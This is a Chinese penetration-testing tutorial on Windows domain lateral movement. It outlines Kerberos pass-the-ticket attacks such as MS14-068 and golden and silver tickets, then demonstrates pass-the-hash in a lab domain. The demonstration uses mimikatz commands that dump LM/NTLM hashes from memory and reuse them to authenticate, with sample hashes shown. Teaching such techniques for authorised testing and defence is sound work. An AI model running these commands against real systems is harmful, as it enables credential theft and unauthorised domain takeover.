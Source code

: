 PTT 攻击的部分就不是简单的 NTLM 认证了，它是利用 Kerberos 协议进行攻击的，这里就介绍三种常见的攻击方法：

- MS14-068
- Golden ticket
- SILVER ticket

简单来说就是将连接合法的票据注入到内存中实现连接。
MS14-068 基于漏洞，Golden ticket(黄金票据)，SILVER ticket(白银票据)其中 Golden ticket(黄金票据)，SILVER ticket(白银票据)属于权限维持技术。
MS14-068 造成的危害是允许域内任何一个普通用户，将自己提升至域管权限。微软给出的补丁是kb3011780

# 演示案例：

## 域横向移动 PTH 传递-Mimikatz

### 案例 1-域横向移动 PTH 传递-mimikatz

PTH ntlm 传递 未打补丁下的工作组及域连接

```shell
#域连接
sekurlsa::pth /user:administrator /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7
#工作组连接
sekurlsa::pth /user:administrator /domain:workgroup/ntlm:518b98ad4178a53695dc997aa02d455c
#在实战中，本地用户与域用户，都尝试连接一下
sekurlsa::pth /user:boss /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7
\\OWA2010CN-God.god.org
privilege::debug
sekurlsa::logonpasswords
```

当获取到域内一个主机的权限之后，可以使用mimikatz运行sekurlsa::logonPasswords命令获取其LM和NTLM。

注意：Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash。由于目前大部分主机系统都很新，所以一般我们收集的都是NTLM数据，但是也不排除内网中有老系统，所以在信息收集的时候，**最好LM和NTLM都收集一下。**

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-3.png)

```shell
LM       :e90127c07127ed12f4ebf668acca53e9
NTLM     :518b98ad4178a53695dc997aa02d455c
```

当收集到NTLM数据后，很有可能内网中有其他主机的NTLM值与我们收集到的一致。此时我们就可以使用NTLM进行内网横向渗透。

运行以下命令，域横向移动PTH传递，攻击未打补丁下域内主机，其中ccef208c6485269c20db2cad21734fe7是前期信息收集时收集到的NTLM值。

```shell
sekurlsa::pth /user:administrator /domain:god /ntlm:ccef208c6485269c20db2cad21734fe7
sekurlsa::pth/user:administrator /domain:workgroup/ntlm:518b98ad4178a53695dc997aa02d455c
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-4.png)


